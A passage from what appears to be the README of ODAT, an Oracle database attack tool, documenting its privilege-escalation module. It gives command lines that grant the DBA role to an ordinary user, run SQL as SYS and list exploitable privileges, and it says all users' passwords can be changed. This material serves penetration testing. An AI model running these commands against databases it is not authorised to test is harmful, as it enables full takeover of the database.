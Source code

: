 * With the __CREATE ANY PROCEDURE__ privilege, it is possible to alter all Oracle users' passwords (e.g. SYS's password) using APEX_040200's privileges.

* With this *privesc* module, you can give the DBA role to Oracle user used in this module (e.g. *$USER*). Here is an example using CREATE/EXECUTE ANY PROCEDURE privileges:
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD --dba-with-create-any-trigger
```

* Also, it is possible to execute SQL requests as SYS manually. Here is an example using CREATE/EXECUTE ANY PROCEDURE privileges:
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD --exec-with-execute-any-procedure 'GRANT dba TO $USER'
```

* You can revoke the DBA role using the following command:
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD --revoke-dba-role
```

* As a reminder, you can use the following command to see commands of this module:
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD -h
```

* The command *--get-detailed-privs* can be used to get system privileges and roles granted to Oracle user used to run this module. Also, it gets system privileges and roles given to roles granted to Oracle user.
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD --get-detailed-privs
```

* To see privileges and roles given to the current Oracle user only, the command *--get-privs* must be used:
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD --get-privs
```

* Notice these 2 previous commands underlines system privileges that can be exploited by this module to gain privileged access.

---
| __Quentin HARDY__    |
| ------------- |
| __quentin.hardy@bt.com__    |
| __qhardyfr@gmail.com__  |

